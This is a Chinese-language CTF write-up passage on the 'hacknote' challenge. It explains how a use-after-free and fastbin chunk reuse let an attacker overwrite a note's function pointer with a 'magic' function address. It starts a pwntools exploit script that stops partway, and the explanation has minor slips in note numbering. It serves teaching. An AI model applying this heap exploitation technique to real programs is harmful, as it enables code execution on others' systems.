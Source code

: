 ### 利用分析

我们可以看到 Use After Free 的情况确实可能会发生，那么怎么可以让它发生并且进行利用呢？需要同时注意的是，这个程序中还有一个magic函数，我们有没有可能来通过use after free 来使得这个程序执行magic函数呢？**一个很直接的想法是修改note的put字段为magic函数的地址，从而实现在执行print note 的时候执行magic函数。** 那么该怎么执行呢？                                                                         

我们可以简单来看一下每一个note生成的具体流程

1. 程序申请8字节内存用来存放note中的put以及content指针。
2. 程序根据输入的size来申请指定大小的内存，然后用来存储content。

           +-----------------+                       
           |   put           |                       
           +-----------------+                       
           |   content       |       size              
           +-----------------+------------------->+----------------+
                                                  |     real       |
                                                  |    content     |
                                                  |                |
                                                  +----------------+

那么，根据我们之前在堆的实现中所学到的，显然note是一个fastbin chunk（大小为16字节）。我们的目的是希望一个note的put字段为magic的函数地址，那么我们必须想办法让某个note的put指针被覆盖为magic地址。由于程序中只有唯一的地方对put进行赋值。所以我们必须利用写real content的时候来进行覆盖。具体采用的思路如下

- 申请note0，real content size为16（大小与note大小所在的bin不一样即可）
- 申请note1，real content size为16（大小与note大小所在的bin不一样即可）
- 释放note0
- 释放note1
- 此时，大小为16的fast bin chunk中链表为note1->note0
- 申请note2，并且设置real content的大小为8，那么根据堆的分配规则
  - note2其实会分配note1对应的内存块。
  - real content 对应的chunk其实是note0。
- 如果我们这时候向note3的chunk部分写入magic的地址，那么由于我们没有note1为NULL。当我们再次尝试输出note1的时候，程序就会调用magic函数。

### 利用脚本

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

r = process('./hacknote')


def addnote(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def delnote(idx):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))


def printnote(idx):
    r.recvuntil(":")
```